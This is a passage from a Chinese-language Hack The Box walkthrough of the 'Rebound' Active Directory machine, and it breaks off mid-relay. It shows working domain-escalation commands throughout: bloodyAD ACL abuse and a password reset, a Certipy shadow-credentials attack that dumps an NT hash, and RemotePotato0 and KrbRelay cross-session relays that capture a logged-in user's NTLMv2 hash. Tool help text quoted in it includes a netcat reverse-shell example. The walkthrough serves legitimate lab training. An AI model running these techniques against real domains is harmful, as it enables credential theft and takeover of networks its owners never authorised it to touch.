

#### **BloodHound Data Analysis**

> 最短路径到域管理员



### **Get Control over WinRM_SVC**

> 注意这里有个坑，加入`servicemgmt`组过一段时间会掉，所以要赶快执行授权行为



> 其实依靠bloodyAD三条命令就可以完成getShell

```assembly

sudo bloodyAD --host 10.129.6.63 -u oorend -p '1GR8t@$$4u' add groupMember servicemgmt oorend

sudo bloodyAD --host 10.129.6.63 -u oorend -p '1GR8t@$$4u' add genericAll "OU=Service Users,DC=rebound,DC=htb" oorend

sudo bloodyAD --host 10.129.6.63 -u oorend -p '1GR8t@$$4u' set password winrm_svc 'Adm1n@123!'
```

#### **方法一：修改winrm_svc密码**

> 因为winrm_svc有远程登陆权限，我们修改一下他的密码，然后winrm登录




#### **方法二：影子凭证**

##### 什么是影子凭证攻击？

> 影子的命名源于攻击者可以在活动目录的对象（用户、计算机账户）中找到`msDS-KeyCredentialLink`并植入备用密钥，以此来绕过常规的认证机制，来达到权限提升和持久化攻击,由于这个`msDS-KeyCredentialLink`的属性是用于无密码认证场景，常规图形管理工具并不直接显示，这样可以绕过依赖账户密码和hash值的认证机制，达成类似无密码身份验证的效果。这个`msDS-KeyCredentialLink`字段可以容纳多个密钥。

##### 如何实现影子凭证攻击?

> 要成功使用这项技术，必须要对目标账号的`msDS-KeyCredentialLink`字段进行写操作，通过滥用错误配置的访问控制列表或使用域管理员的特权账号来修改权限来达成。

> 直接修改winrm_svc太过暴力以及容易被管理员发现，相比之下影子凭证更加隐蔽更加柔和
>
> oorend **通过加入 ServiceMgmt 组，拿到了 winrm_svc 用户的 GenericWrite / 可写 msDS-KeyCredentialLink 权限**，满足影子凭证攻击硬性条件，因此能用这条命令打 Shadow Credentials。

```shell
pip3 install certipy-ad
```

```shell
sudo ntpdate 10.129.6.63

sudo bloodyAD --host 10.129.6.63 -u oorend -p '1GR8t@$$4u' add groupMember servicemgmt oorend

sudo bloodyAD --host 10.129.6.63 -u oorend -p '1GR8t@$$4u' add genericAll "OU=Service Users,DC=rebound,DC=htb" oorend

certipy-ad shadow auto -account winrm_svc -u oorend@rebound.htb -p '1GR8t@$$4u' -dc-ip 10.129.6.63 -k -target dc01.rebound.htb

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '6b38b3b7-9c8f-2a72-7543-1e1156366026'
[*] Adding Key Credential with device ID '6b38b3b7-9c8f-2a72-7543-1e1156366026' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '6b38b3b7-9c8f-2a72-7543-1e1156366026' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@rebound.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 4469650fd892e98933b4536d2e86e512
```



### **Auth as TBrady**

#### **Enumeration**

> 四处逛逛，查看有没有什么有用的文件或权限





**ADCS**

> 尝试一下有没有证书颁发方面的漏洞 查域里有没有配置错误的 AD 证书模板，普通用户可以申请证书 → 伪造高权限账号 → 拿下域控

```assembly
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo ntpdate 10.129.6.63
[sudo] password for whoami:
2025-03-14 00:58:47.208720 (+0800) +87.226306 +/- 0.059324 10.129.6.63 s1 no-leap
CLOCK: time stepped by 87.226306

#certipy-ad find = 扫描域里的 AD 证书服务（AD CS）有没有漏洞
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ certipy-ad find -dc-ip 10.129.6.63 -ns 10.129.6.63 -u oorend@rebound.htb -p '1GR8t@$$4u' -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'rebound-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'rebound-DC01-CA'
[*] Checking web enrollment for CA 'rebound-DC01-CA' @ 'dc01.rebound.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities #域内证书颁发机构
  0
    CA Name                             : rebound-DC01-CA
    DNS Name                            : dc01.rebound.htb
    Certificate Subject                 : CN=rebound-DC01-CA, DC=rebound, DC=htb
    Certificate Serial Number           : 42467DADE6281F8846DC3B6CEE24740D
    Certificate Validity Start          : 2023-04-08 13:55:49+00:00
    Certificate Validity End            : 2122-04-08 14:05:49+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : REBOUND.HTB\Administrators
      Access Rights
        ManageCa                        : REBOUND.HTB\Administrators
                                          REBOUND.HTB\Domain Admins
                                          REBOUND.HTB\Enterprise Admins
        ManageCertificates              : REBOUND.HTB\Administrators
                                          REBOUND.HTB\Domain Admins
                                          REBOUND.HTB\Enterprise Admins
        Enroll                          : REBOUND.HTB\Authenticated Users #权限：所有已认证用户都能申请证书
Certificate Templates                   : [!] Could not find any certificate templates

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ certipy-ad find -dc-ip 10.129.6.63 -ns 10.129.6.63 -u oorend@rebound.htb -p '1GR8t@$$4u' -vulnerable -stdout -scheme ldaps -ldap-channel-binding -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.129.6.63:636 - ssl
[+] Default path: DC=rebound,DC=htb
[+] Configuration path: CN=Configuration,DC=rebound,DC=htb
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     REBOUND.HTB\Everyone (REBOUND.HTB-S-1-1-0)
     REBOUND.HTB\Users (REBOUND.HTB-S-1-5-32-545)
     REBOUND.HTB\oorend (S-1-5-21-4078382237-1492182817-2568127209-7682)
     REBOUND.HTB\Domain Users (S-1-5-21-4078382237-1492182817-2568127209-513)
     REBOUND.HTB\Authenticated Users (REBOUND.HTB-S-1-5-11)
     REBOUND.HTB\Domain Computers (S-1-5-21-4078382237-1492182817-2568127209-515)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[+] Trying to resolve 'dc01.rebound.htb' at '10.129.6.63'
[*] Trying to get CA configuration for 'rebound-DC01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.129.6.63
[!] Got error while trying to get CA configuration for 'rebound-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'rebound-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'dc01.rebound.htb' (10.129.6.63)
[*] Got CA configuration for 'rebound-DC01-CA'
[+] Resolved 'dc01.rebound.htb' from cache: 10.129.6.63
[+] Connecting to 10.129.6.63:80
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : rebound-DC01-CA
    DNS Name                            : dc01.rebound.htb
    Certificate Subject                 : CN=rebound-DC01-CA, DC=rebound, DC=htb
    Certificate Serial Number           : 42467DADE6281F8846DC3B6CEE24740D
    Certificate Validity Start          : 2023-04-08 13:55:49+00:00
    Certificate Validity End            : 2122-04-08 14:05:49+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : REBOUND.HTB\Administrators
      Access Rights
        ManageCertificates              : REBOUND.HTB\Administrators
                                          REBOUND.HTB\Domain Admins
                                          REBOUND.HTB\Enterprise Admins
        ManageCa                        : REBOUND.HTB\Administrators
                                          REBOUND.HTB\Domain Admins
                                          REBOUND.HTB\Enterprise Admins
        Enroll                          : REBOUND.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates

```

> 它找不到任何易受攻击的模板

**Processes**

> 会话 1 中有一堆进程。通常在 HTB 计算机上，当没有人登录时，我会看到 `LogonUI` 和其他几个进程，但这里`资源管理器`正在运行，看起来有人实际上已经登录了。

```apl
*Evil-WinRM* PS C:\Users\winrm_svc> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    407      33    12568      21648              2796   0 certsrv
    467      19     2336       5604               380   0 csrss
    257      16     2100       5212               492   1 csrss
    359      15     3468      15016              5804   1 ctfmon
    401      33    16596      25376              2908   0 dfsrs
    183      11     2336       7860              3000   0 dfssvc
    286      14     3844      13736              3940   0 dllhost
   5375    5804    69452      71468              2900   0 dns
    603      25    24180      51848              1016   1 dwm
   1494      58    23392      88068              6004   1 explorer
     53       6     1512       4712              2752   0 fontdrvhost
     53       6     1784       5436              2760   1 fontdrvhost
      0       0       56          8                 0   0 Idle
    146      13     2304       6060              2936   0 ismserv
   2653     158    54992      74156               628   0 lsass
    504      34    53368      66616              2852   0 Microsoft.ActiveDirectory.WebServices
    254      13     2940      10780              4496   0 msdtc
    646      92   307444     324932              2400   0 MsMpEng
      0       8      376      71980                88   0 Registry
    239      13     2792      17176              5784   1 RuntimeBroker
    288      15     5384      16872              6160   1 RuntimeBroker
    230      12     2288      12972              6500   1 RuntimeBroker
    668      32    19832      71544              4628   1 SearchUI
    276      12     2824      12464              1884   0 SecurityHealthService
    619      14     5748      13388               620   0 services
    773      30    17100      60500              5192   1 ShellExperienceHost
    455      17     5032      25128              5412   1 sihost
     53       3      524       1220               280   0 smss
    209      12     1716       7528               320   0 svchost
    129      16     3464       7924               324   0 svchost
    209       9     1824       7084               328   0 svchost
    128       7     1216       6072               388   0 svchost
    213      12     1960      10108               768   0 svchost
    175       9     1660      11996               808   0 svchost
     89       5      892       4004               844   0 svchost
    933      20     6852      22916               864   0 svchost
    897      20     5344      12908               908   0 svchost
    252      13     3208       9052               924   0 svchost
    256      11     1960       7920               948   0 svchost
    404      33     6920      16456              1132   0 svchost
    389      13    11928      16472              1148   0 svchost
    354      16     3820      11972              1244   0 svchost
    332      10     2412       8728              1292   0 svchost
    281      16     3060      12528              1328   0 svchost
    236      12     2548      11892              1348   0 svchost
    440       9     2856       9340              1360   0 svchost
    148       7     1216       5916              1368   0 svchost
    162       9     2020       7512              1500   0 svchost
    268      13     2456       8140              1508   0 svchost
    168      12     1668       7544              1520   0 svchost
    372      18     4972      14716              1528   0 svchost
    175      11     1788       8400              1540   0 svchost
    413      16    12232      22084              1620   0 svchost
    173      11     2444      13316              1648   0 svchost
    314      13     2016       9172              1736   0 svchost
    468      17     3100      11940              1760   0 svchost
    191      12     1928      12176              1808   0 svchost
    145       9     1608       7044              1920   0 svchost
    218      10     2228       9420              1928   0 svchost
    222      12     2152       9524              2032   0 svchost
    285      13     4460      11692              2108   0 svchost
    244      25     3744      13280              2136   0 svchost
    316      16    16572      18256              2164   0 svchost
    158       9     1884       7024              2340   0 svchost
    138       9     1516       6736              2432   0 svchost
    178      11     2192      13732              2448   0 svchost
    207      11     2208       8600              2600   0 svchost
    169       9     2828       7664              2792   0 svchost
    145       7     1304       5992              2820   0 svchost
    449      20    17592      33080              2876   0 svchost
    220      12     2040       7556              2976   0 svchost
    138       8     1492       6436              2992   0 svchost
    277      20     3780      13060              3328   0 svchost
    404      26     3560      13488              3512   0 svchost
    188      15     6024      10300              4348   0 svchost
    285      20     7896      14652              4772   0 svchost
    320      17     6320      22668              5020   0 svchost
    227      12     2668      12964              5424   1 svchost
    388      19     6824      29380              5448   1 svchost
    203      11     2664      12076              5552   0 svchost
    160       9     3328      11572              5644   0 svchost
    254      14     2992      13972              5744   0 svchost
    172       9     1512       7548              5764   0 svchost
    203      11     2104       9772              6740   0 svchost
    118       8     1588       6144              6868   0 svchost
   1806       0      192        156                 4   0 System
    182      11     2072      11360              5508   1 taskhostw
    213      16     2444      11228              3660   0 vds
    172      11     2864      11568              3040   0 VGAuthService
    149       8     1796       7856              3068   0 vm3dservice
    150      10     1944       8388              3420   1 vm3dservice
    402      23    10500      23524              2472   0 vmtoolsd
    246      17     5120      15776              6652   1 vmtoolsd
    172      11     1416       7160               484   0 wininit
    283      12     2592      13100               552   1 winlogon
    388      20    10980      21852              3896   0 WmiPrvSE
    917      27    57840      74892       0.38   5728   0 wsmprovhost
```

> 我想显示[会话主机相关信息](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/qwinsta)，但是失败了

```apl
*Evil-WinRM* PS C:\> qwinsta *
qwinsta.exe : No session exists for *
    + CategoryInfo          : NotSpecified: (No session exists for *:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

> 我看到了[这篇 Security Stack Exchange 帖子](https://security.stackexchange.com/questions/272327/cannot-qwinsta-during-winrm-but-it-works-when-run-under-newcredentials-logo)，它没有解释原因，但表明`RunasCs.exe`使其正常工作（并且该作者可能正在尝试解决 Rebound）。我将下载[最新版本](https://github.com/antonioCoco/RunasCs/releases)并将其上传到 Rebound

```assembly
*Evil-WinRM* PS C:\windows\Temp> upload RunasCs.exe

Info: Uploading /home/whoami/Documents/HacktheBox/HTB:Rebound/RunasCs.exe to C:\windows\Temp\RunasCs.exe

Data: 68948 bytes of 68948 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\windows\Temp> .\RunasCs.exe --help

RunasCs v1.5 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--force-profile] [--bypass-uac] [--remote-impersonation]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and CreateProcess* functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     commandline for the process

Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain.
                            Default: ""
    -f, --function create_process_function
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatically according to your privileges.
                            0 - CreateProcessAsUserW
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
    -l, --logon-type logon_type
                            the logon type for the token of the new process.
                            Default: "2" - Interactive
    -t, --timeout process_timeout
                            the waiting time (in ms) for the created process.
                            This will halt RunasCs until the spawned process
                            ends and sent the output back to the caller.
                            If you set 0 no output will be retrieved and a
                            background process will be created.
                            Default: "120000"
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this option sets the process_timeout to 0.
    -p, --force-profile
                            force the creation of the user profile on the machine.
                            This will ensure the process will have the
                            environment variables correctly set.
                            WARNING: If non-existent, it creates the user profile
                            directory in the C:\Users folder.
    -b, --bypass-uac
                            try a UAC bypass to spawn a process without
                            token limitations (not filtered).
    -i, --remote-impersonation
                            spawn a new process and assign the token of the
                            logged on user to the main thread.

Examples:
    Run a command as a local user
        RunasCs.exe user1 password1 "cmd /c whoami /all"
    Run a command as a domain user and logon type as NetworkCleartext (8)
        RunasCs.exe user1 password1 "cmd /c whoami /all" -d domain -l 8
    Run a background process as a local user,
        RunasCs.exe user1 password1 "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444
    Run a command simulating the /netonly flag of runas.exe
        RunasCs.exe user1 password1 "cmd /c whoami /all" -l 9
    Run a command as an Administrator bypassing UAC
        RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
    Run a command as an Administrator through remote impersonation
        RunasCs.exe adm1 password1 "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

> 显示 TBrady 用户已登录

```assembly
*Evil-WinRM* PS C:\windows\Temp> .\RunasCs.exe x x qwinsta -l 9

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           tbrady                    1  Active
```

> Brady 在 Delegator$ 帐户上有 `ReadGMSAPassword`


#### **Cross Session Relay**

> 我将通过触发身份验证回我的盒子并中继它以转储哈希值来滥用 TBrady 的登录会话,有几种方法可以做到这一点：

- RemotePotato0
- KrbRelay

**RemotePotato0**

> RemotePotato0 滥用 DCOM 激活服务并触发当前在目标机器上登录的任何用户的 NTLM 身份验证。需要特权用户（例如域管理员用户）登录同一台机器。一旦触发了 NTLM type1，我们就会设置一个跨协议中继服务器，该服务器接收特权 type1 消息，并通过解压缩 RPC 协议并通过 HTTP 打包身份验证将其中继到第三个资源。在接收端，您可以设置另一个中继节点（例如 ntlmrelayx）或直接中继到特权资源。RemotePotato0 还允许抓取和窃取登录机器上的每个用户的 NTLMv2 哈希值。

**上传**

```
*Evil-WinRM* PS C:\programdata> upload /opt/RemotePotato0/RemotePotato0.exe
Info: Uploading /opt/RemotePotato0/RemotePotato0.exe to C:\programdata\RemotePotato0.exe                 

Data: 235520 bytes of 235520 bytes copied

Info: Upload successful! 
```

**运行**
要运行它，我将使用以下选项：

- `-m 2` - 方法 2，“Rpc 捕获（哈希）服务器 + 土豆触发器”
- `-s 1` - 要定位的用户的会话
- `-x 10.10.14.6` - 将流氓 Oxid 解析器 IP 设置为 mine
- `-p 9999` - 我将中继回主机的端口;没有必要，因为这是默认的，但最好明确说明

```
*Evil-WinRM* PS C:\programdata> .\RemotePotato0.exe -m 2 -s 1 -x 10.10.14.6 -p 9999
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 9999
[*] Example Network redirector:
        sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP::9999
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] IStoragetrigger written: 102 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 9999
[+] User hash stolen!

NTLMv2 Client   : DC01
NTLMv2 Username : rebound\tbrady
NTLMv2 Hash     : tbrady::rebound:2c38764642ea2aeb:216c7642dd3e5224eed40910c4aff73f:010100000000000097a7c86cdd79da01915a74c607bc396c0000000002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e006800740062000700080097a7c86cdd79da0106000400060000000800300030000000000000000100000000200000a389c9930c336bbf842c62a142e75c43b5dd50518b92fc846dace683e90c00b90a00100000000000000000000000000000000000090000000000000000000000
```

**KrbRelay**

```
*Evil-WinRM* PS C:\programdata> upload KrbRelay.exe
Info: Uploading KrbRelay.exe to C:\programdata\KrbRelay.exe

Data: 2158592 bytes of 2158592 bytes copied

Info: Upload successful!
```

```
*Evil-WinRM* PS C:\programdata> .\RunasCs.exe x x -l 9 "C:\programdata\KrbRelay.exe -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm"

[*] Auth Context: rebound\tbrady
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\programdata\KrbRelay.exe
[*] Register com server
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAAAmc+Yps4qzanq2s7U7pgsvAhgAAEgU//9VNESK9L4lySIADAAHADEAMgA3AC4AMAAuADAALgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:

[*] Forcing cross-session authentication
[*] Using CLSID: 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4
[*] Spawning in session 1
[*] NTLM1
4e544c4d535350000100000097b218e2070007002c00000004000400280000000a0063450000000f444330315245424f554e44
[*] NTLM2
4e544c4d53535000020000000e000e003800000015c299e26782b294c220a57c000000000000000086008600460000000a0063450000000f7200650062006f0075006e00640002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e006800740062000700080041ea7c1fdf79da010000000000000000000000005c00410070007000490044005c004b005070c2040b7f0000
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, ReplayDetect, SequenceDetect, UseDceStyle, Connection, AllowNonUserLogons
[*] NTLM3
